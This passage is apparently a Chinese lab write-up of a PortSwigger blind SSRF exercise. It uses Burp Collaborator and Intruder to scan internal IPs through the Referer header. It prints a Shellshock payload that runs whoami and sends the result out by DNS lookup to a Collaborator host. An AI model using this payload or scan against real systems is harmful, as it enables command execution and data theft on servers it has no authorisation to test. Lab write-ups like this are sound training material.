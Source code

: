 





浏览产品的时候，发现referer的url：

![image-20250308104326244](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250308104326244.png)



为了测试，需要在Burp Suite Professional中安装"Collaborator Everywhere"插件





将靶场域名添加到Burp Suite的目标范围，以便Collaborator Everywhere将其作为目标。

![image-20250308104419029](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250308104419029.png)





添加到域之后，再次浏览站点产品详情，发现：





观察HTTP交互在HTTP请求中包含User-Agent字符串。将对产品页面的请求发送给Burp Intruder

![image-20250308105208977](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250308105208977.png)

ssrf盲测：使用Burp Collaborator 客户端生成唯一的 Burp Collaborator 有效载荷，并将其放入以下 Shellshock 有效载荷中:

```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

() { :; }; /usr/bin/nslookup $(whoami).0a0e00d7048e58abb419d40900a500ca
```



更改 Referer 标头，http://192.168.0.1:8080，爆破ip从1到255

![image-20250308110154613](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250308110154613.png)



攻击完成后，返回Collaborator选项卡，应该看到一个DNS交互，它是由被成功的盲SSRF攻击击中的后端系统发起的。操作系统用户的名称应显示在DNS子域中。





提交flag，完成实验







### 7.具有基于白名单的输入过滤器的 SSRF

[SSRF with whitelist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter)
